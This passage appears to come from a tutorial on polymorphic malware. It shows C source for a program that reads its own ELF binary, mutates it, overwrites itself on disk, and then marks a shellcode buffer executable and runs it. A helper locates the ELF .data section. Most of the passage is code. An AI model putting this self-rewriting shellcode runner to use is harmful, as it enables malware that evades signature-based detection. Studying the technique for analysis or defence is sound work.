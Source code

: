 > ```c
>int main(int argc, char** argv){
>	char* data; 
>	struct stat info; 
>	int fd;
>	
>	/** Reads itself **/
>	if ((fd = open(argv[0], O_RDONLY, 0)) < 0) die(NULL, "Could not read myself\n"); 
>	fstat(fd, &info); 
>	if (!(data = malloc(info.st_size))) die(data, "Could not allocate memory\n"); 
>	read(fd, data, info.st_size); 
>	close(fd); 
>	
>	mutate(data);
>	
>	/** Overwrites itself **/
>	if (unlink(argv[0]) < 0) die(data, "Could not unlink myself\n"); 
>	if ((fd = open(argv[0], O_CREAT|O_TRUNC|O_RDWR, S_IRWXU)) < 0) die(data, "Could not re-create myself\n"); 
>	if (write(fd, data, info.st_size) < 0) die(data, "Could not re-write myself\n"); 
>	close(fd);
>	free(data);
>	
>	/** Execute shellcode **/
>	uintptr_t pagestart	 = (uintptr_t)shellcode & -getpagesize();
>	if (mprotect((void*)pagestart, ((uintptr_t)shellcode + SHELLCODE_SIZE - pagestart), PROT_READ | PROT_WRITE | PROT_EXEC) < 0)
>		die(data, "Could not change permissions before executing. Exiting\n");
>	((void(*)())shellcode)();
>}
>
>void die(char* p_data, char* p_msg){
>	if (p_data) free(p_data); 
>	fprintf(stderr, p_msg, NULL); 
>	exit(EXIT_FAILURE); 
>}
> ```

The `die` routine is used only for debugging purpose, as it simply prints a message, eventually frees the dynamically allocated buffer and exits.

## Helpers

The routine `mutate` is the most complicated, that's the reason why the some helpers have been written to make it easier to understand. The first one is based on the one given [here](https://0x00sec.org/t/elfun-file-injector/410)
or the one we used in [the previous article](./polymorphic1). It reads the data as an ELF header and finds the offset of the .data section. 

> ```c
>Elf64_Shdr* get_section(void* p_data){
>	int i;
>	Elf64_Ehdr* elf_header = (Elf64_Ehdr*) p_data;
>	Elf64_Shdr* section_header_table = (Elf64_Shdr*) (p_data + elf_header->e_shoff);
>	char* strtab_ptr = p_data + section_header_table[elf_header->e_shstrndx].sh_offset;
>	for (i = 0; i < elf_header->e_shnum; i++){
>		if (!strcmp(strtab_ptr + section_header_table[i].sh_name, ".data")) return &section_header_table[i];
>	}
>	return NULL;
>}
> ```
